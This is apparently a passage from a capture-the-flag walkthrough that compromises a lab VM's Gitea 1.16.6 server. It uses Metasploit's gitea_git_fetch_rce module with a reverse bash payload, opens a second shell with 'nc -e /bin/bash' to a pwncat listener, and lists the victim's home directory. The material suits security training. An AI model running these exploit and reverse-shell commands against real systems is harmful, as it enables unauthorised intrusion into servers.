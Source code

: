 `msfconsole -q`

`search gitea`, `use exploit/multi/http/gitea_git_fetch_rce`, `set PAYLOAD cmd/unix/reverse_bash`, `show options`, `set RHOSTS 192.168.56.140`, `set RPORT 3000`,  `set LHOST 192.168.56.118`, `set LPORT 5555`, `set USERNAME hacker`, `set PASSWORD hacker`, `show targets`, `set TARGET Unix Command`, `exploit`:
```
[*] Started reverse TCP handler on 192.168.56.118:5555 ←
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6 ←
[*] Using URL: http://192.168.56.118:8080/
[*] Command shell session 1 opened (192.168.56.118:5555 -> 192.168.56.140:35942) at 2024-10-11 18:12:53 +0200 ←
```

![Victim: primavera](https://img.shields.io/badge/Victim-primavera-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
primavera ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`pwncat-cs -lp 6666`:
```
[19:31:14] Welcome to pwncat 🐈! 
bound to 0.0.0.0:6666 ←
```

![Victim: primavera](https://img.shields.io/badge/Victim-primavera-64b5f6?logo=linux&logoColor=white)

`nc -e /bin/bash 192.168.56.118 6666`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
[19:31:24] received connection from 192.168.56.140:45790 ←
[19:31:25] 192.168.56.140:45790: registered new host w/ db
```

![Victim: primavera](https://img.shields.io/badge/Victim-primavera-64b5f6?logo=linux&logoColor=white)

`id`:
```
uid=1001(primavera) gid=1001(primavera) groups=1001(primavera)
```

`cd /home/primavera`

`ls -alps ./`:
```
total 105088
     4 drwxr-xr-x  7 primavera primavera      4096 Oct 20  2022 ./
     4 drwxr-xr-x  4 root      root           4096 Oct 20  2022 ../
     0 lrwxrwxrwx  1 primavera primavera         9 Oct 20  2022 .bash_history -> /dev/null
     4 -rw-r--r--  1 primavera primavera       220 Oct 20  2022 .bash_logout
     4 -rw-r--r--  1 primavera primavera      3526 Oct 20  2022 .bashrc
     4 -rw-r--r--  1 primavera primavera       190 Oct 20  2022 .gitconfig
     4 drwxr-xr-x  3 primavera primavera      4096 Oct 20  2022 .local/
     4 -rw-r--r--  1 primavera primavera       807 Oct 20  2022 .profile
     4 -rw-r--r--  1 primavera primavera        66 Oct 20  2022 .selected_editor
     4 drwx------  2 primavera primavera      4096 Oct 20  2022 .ssh/
     4 -rw-r--r--  1 primavera primavera       165 Oct 20  2022 .wget-hsts
     4 drwxr-xr-x  3 primavera primavera      4096 Oct 20  2022 custom/
     4 drwxr-xr-x 13 primavera primavera      4096 Oct 11 19:28 data/
105032 -rwxr-xr-x  1 primavera primavera 107546440 Apr 21  2022 gitea
     4 drwxr-xr-x  2 primavera primavera      4096 Oct 20  2022 log/
     4 -rw-------  1 primavera primavera        31 Oct 20  2022 note.txt ←
```